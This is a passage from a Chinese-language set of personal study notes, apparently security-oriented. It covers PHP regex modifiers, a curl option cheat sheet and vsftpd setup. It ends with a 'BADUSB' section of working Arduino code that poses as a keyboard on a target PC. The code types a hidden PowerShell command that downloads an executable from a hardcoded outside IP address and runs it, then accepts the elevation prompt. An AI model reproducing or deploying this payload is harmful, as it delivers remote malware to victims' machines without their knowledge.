           //两者不可匹配; . 是除了换行以外的字符可匹配; 
           //修改下模式为:$mode="/pr.y/s"; 
               //其中修正符s将\n视为普通字符,即不是换行; 
           //最后两者可以匹配; 
    //修正符:x 将模式中的空白忽略; 
    //修正符:A 强制从目标字符串开头匹配; 

         例://$mode="/abc/A"; 
           //可以与$str="abcsdfi"匹配, 
           //不可以与$str2="sdsdabc"匹配; 
           //因为$str2不是以abc开头; 
    //修正符:D 如果使用$限制结尾字符,则不允许结尾有换行; 

         例://模式为:$mode="/abc$/"; 
           //可以与最后有换行的$str="adshabc\n"匹配; 
           //元子符$会忽略最后的换行\n; 
           //如果模式为:$mode="/abc/D", 
           //则不能与$str="adshabc\n"匹配, 
           //修正符D限制其不可有换行;必需以abc结尾; 
    //修正符:U 只匹配最近的一个字符串;不重复匹配; 

         例: 
             如模式为: 
            $mode="/a.*c/"; 
            $str="abcabbbcabbbbbc" ; 
            preg_match($mode,$str,$content); 
            echo $content[0]; //输出:abcabbbcabbbbbc; 

            //如果$mode="/a.*c/";变成$mode="/a.*c/U"; 
             // 则只匹配最近一个字符串,输出:abc; 

//修正符:e 配合函数preg_replace()使用,            可以把匹配来的字符串当作正则表达式执行;  


```

## Linux系统目录



## curl

无 正常get
通过 GET 方式正常请求
会把返回的内容保存下来
`curl http://127.0.0.1`

-A 改ua
指定用户代理标头（user-agent）
`curl -A "chrome 5.1" http://127.0.0.1`

-b 改cookie
指定 cookie 访问
`curl -b 'cookie=yichen123' http://127.0.0.1`
`curl -b cookie.txt http://127.0.0.1`

-c 接收服务端cookie
将服务器传过来的 cookie 写到文件里面
`curl -c cookie.txt http://127.0.0.1`

-d  POST
使用 -d 以后会自动改成 POST 方式请求
`curl -d "a=admin&b=password" -X POST http://127.0.0.1`

--data-urlencode
跟-d差不多，不过会进行 url 编码

-e 改refer
设置 refer 标明请求来源
`curl -e "39.105.32.48" http://127.0.0.1`

-F 传文件
`curl -F "file=@123.png;filename=1.png"`
源文件名为yichen.png 传上去的文件名叫 1.png

-H 改请求头
`curl -H 'Accept-Language: en-US' -H 'Secret-Message: xyzzy' https://127.0.0.1`
请求头中的 range 可以用来界定下载范围
-H 'Range: bytes=6291456000-6291456050'

-r 分块下载
`curl -r 123-456 -o 1.mp4 http://127.0.0.1/1.mp4`

-X 改请求方法
`curl -X POST http://127.0.0.1`

-v 显示全过程
`curl -v http://127.0.0.1`
显示比较全的信息，便于调试

-u http认证
`curl -u "admin:password" http://127.0.0.1`
这就是那个 base64 编码的

-o 保存返回
`curl -o 123.html http://127.0.0.1/index.html`
与 wget 效果相同

## 配置ftp
安装 vsftpd 服务器
`apt install vsftpd`

`vim /etc/vsftpd.user_allowlist`
添加用户名

进入
`vim /etc/vsftpd.conf`

把 write_enable=YES 前面的注释去掉，添加下面三行
```
userlist_file=/etc/vsftpd.user_allowlist
userlist_enable=YES
userlist_deny=NO
```

重启：
`/etc/init.d/vsftpd restart`

在主机上安装类似ftp工具（我用的是FileZilla），连接就可以了

# BADUSB

```CPP
#include <Keyboard.h>
void setup() {
  Keyboard.begin();
  //向被攻击主机发送信息，伪装成一个USB键盘并准备通讯
  delay(1542);
  //等待1.542秒，因为电脑在把Leonardo识别成键盘并接受输入时会有1~2秒的延迟，也可以看情况修改，防止输入遗漏
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  //按下大写键，防止一些中文输入法的干扰
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  //输入windows+r让电脑弹出“运行”输入框
  delay(736);
  //等待0.736秒
  //这里等待的原因是有些速度较慢的电脑在弹出输入框是有延迟，如果不等待直接执行后续代码输入字符的话会出现输入代码不完全的情况，导致攻击失败
  Keyboard.print("POWERSHELL -W HIDDEN INVOKE-WEBREQUEST \"HTTP://142.171.27.92/KERL.EXE\" -OUTFILE \"KERL.EXE\"; START-PROCESS \"./KERL.EXE\"");
  Keyboard.press(KEY_RIGHT_CTRL);
  Keyboard.press(KEY_RIGHT_SHIFT);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RIGHT_CTRL);
  Keyboard.release(KEY_RIGHT_SHIFT);
  Keyboard.release(KEY_RETURN);
  delay(800);
  Keyboard.press(KEY_LEFT_ARROW);
  Keyboard.release(KEY_LEFT_ARROW);
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);

  Keyboard.end();
}
void loop() {
}
```
